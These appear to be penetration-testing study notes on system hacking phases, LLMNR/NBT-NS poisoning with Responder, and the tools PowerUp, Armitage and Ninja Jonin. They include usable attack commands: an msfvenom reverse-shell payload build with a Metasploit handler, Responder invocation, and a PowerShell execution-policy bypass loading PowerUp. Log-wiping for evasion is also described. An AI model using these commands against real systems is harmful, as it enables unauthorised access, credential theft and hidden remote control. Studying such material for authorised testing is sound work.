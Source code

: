 # System Hacking
> System hacking is the process of testing computer systems and software for security vulnerabilities that an attacker could exploit to gain access to the organization’s systems to steal or misuse sensitive information.

<br>

There are four steps in the system hacking:

- Gaining Access: Use techniques such as cracking passwords and exploiting vulnerabilities to gain access to the target system
- Escalating Privileges: Exploit known vulnerabilities existing in OSes and software applications to escalate privileges
- Maintaining Access: Maintain high levels of access to perform malicious activities such as executing malicious applications and stealing, hiding, or tampering with sensitive system files
- Clearing Logs: Avoid recognition by legitimate system users and remain undetected by wiping out the entries corresponding to malicious activities in the system logs, thus avoiding detection.


LLMNR (Link Local Multicast Name Resolution) and NBT-NS (NetBIOS Name Service) are two main elements of Windows OSes that are used to perform name resolution for hosts present on the same link. These services are enabled by default in Windows OSes and can be used to extract the password hashes from a user.

Responder is an LLMNR, NBT-NS, and MDNS poisoner. It responds to specific NBT-NS (NetBIOS Name Service) queries based on their name suffix. By default, the tool only responds to a File Server Service request, which is for SMB.

- responder -I eth0
- https://www.exploit-db.com/

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=444 -o /home/attacker/Desktop/Test.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

- https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
  - PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It utilizes various service abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate common elevation methods for a target system.
  - `powershell -ExecutionPolicy Bypass -Command ". .\PowerUp.ps1;Invoke-AllChecks"`
- run vnc

Armitage:
- Armitage is a scriptable red team collaboration tool for Metasploit that visualizes targets, recommends exploits, and exposes the advanced post-exploitation features in the framework. Using this tool, you can create sessions, share hosts, capture data, downloaded files, communicate through a shared event log, and run bots to automate pen testing tasks.

Ninja Jonin:
- Ninja Jonin is a combination of two tools; Ninja is installed in victim machine and Jonin is installed on the attacker machine. The main functionality of the tool is to control a remote machine behind any NAT, Firewall and proxy.
- https://github.com/ErAz7/Jonin
